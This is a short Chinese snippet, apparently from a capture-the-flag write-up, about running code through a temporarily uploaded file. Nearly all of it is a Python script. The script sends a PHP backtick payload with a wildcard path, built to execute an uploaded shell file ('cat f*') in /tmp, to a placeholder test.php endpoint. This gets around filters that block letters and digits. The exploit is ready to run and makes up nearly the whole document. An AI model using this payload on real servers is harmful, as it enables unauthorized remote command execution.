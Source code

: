 ## 上传临时文件

> 
上传临时文件[具体原理](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)


```
#coding:utf-8
#author yu22x
import requests
url="http://xxx/test.php?code=?&gt;&lt;?=`. /???/????????[@-[]`;?&gt;"
files={'file':'cat f*'}
response=requests.post(url,files=files)
html = response.text
print(html)

```
